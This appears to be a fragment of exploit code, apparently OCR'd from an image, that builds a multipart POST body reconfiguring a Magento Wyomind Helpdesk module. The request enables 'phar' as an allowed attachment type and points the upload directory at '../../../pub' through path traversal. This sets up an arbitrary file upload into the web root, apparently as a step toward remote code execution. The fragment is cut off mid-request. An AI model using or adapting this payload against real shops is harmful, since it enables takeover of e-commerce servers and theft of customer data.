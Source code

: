           "-----------------------------14303502862141221692667966053\r\n" +
          "Content-Disposition: form-data; name=\"groups[general][fields][closed_status][value]\"\r\n" +
          "\r\n" +
          "3\r\n" +
          "-----------------------------14303502862141221692667966053\r\n" +
          "Content-Disposition: form-data; name=\"groups[general][fields][ticket_prefix][value]\"\r\n" +
          "\r\n" +
          "10000\r\n" +
          "-----------------------------14303502862141221692667966053\r\n" +
          "Content-Disposition: form-data; name=\"config_state[wyomind_helpdesk_frontend]\"\r\n" +
          "\r\n" +
          "1\r\n" +
          "-----------------------------14303502862141221692667966053\r\n" +
          "Content-Disposition: form-data; name=\"groups[frontend][fields][menu_label][value]\"\r\n" +
          "\r\n" +
          "Support - My Tickets\r\n" +
          "-----------------------------14303502862141221692667966053\r\n" +
          "Content-Disposition: form-data; name=\"groups[frontend][fields][top_link_enabled][value]\"\r\n" +
          "\r\n" +
          "1\r\n" +
          "-----------------------------14303502862141221692667966053\r\n" +
          "Content-Disposition: form-data; name=\"groups[frontend][fields][attachments][value]\"\r\n" +
          "\r\n" +
          "1\r\n" +
          "-----------------------------14303502862141221692667966053\r\n" +
          "Content-Disposition: form-data; name=\"config_state[wyomind_helpdesk_frontend_attachments_settings]\"\r\n" +
          "\r\n" +
          "1\r\n" +
          "-----------------------------14303502862141221692667966053\r\n" +
          "Content-Disposition: form-data; name=\"groups[frontend][groups][attachments_settings][fields][attachments_extension][value]\"\r\n" +
          "\r\n" +
          "jpeg,gif,png,pdf,phar\r\n" +
          "-----------------------------14303502862141221692667966053\r\n" +
          "Content-Disposition: form-data; name=\"groups[frontend][groups][attachments_settings][fields][attachments_directory_path][value]\"\r\n" +
          "\r\n" +
          "helpdesk/files/../../../pub\r\n" +
          "-----------------------------14303502862141221692667966053\r\n" +
          "Content-Disposition: form-data; name=\"groups[frontend][groups][attachments_settings][fields][attachments_upload_max_filesize][value]\"\r\n" +
          "\r\n" +
          "2M\r\n" +
          "-----------------------------14303502862141221692667966053\r\n" +
          "Content-Disposition: form-data; name=\"groups[frontend][groups][attachments_settings][fields][attachments_post_max_size][value]\"\r\n" +
          "\r\n" +
          "4M\r\n" +
          "-----------------------------14303502862141221692667966053\r\n" +
          "Content-Disposition: form-data; name=\"config_state[wyomind_helpdesk_emails]\"\r\n" +
          "\r\n" +
          "1\r\n" +
          "-----------------------------14303502862141221692667966053\r\n" +
          "Content-Disposition: form-data; name=\"config_state[wyomind_helpdesk_emails_customer_settings]\"\r\n" +
          "\r\n" +
          "0\r\n" +
          "-----------------------------14303502862141221692667966053\r\n" +
          "Content-Disposition: form-data; name=\"groups[emails][groups][customer_settings][fields][confirmation_enabled][value]\"\r\n" +
          "\r\n" +
          "0\r\n" +
          "-----------------------------14303502862141221692667966053\r\n" +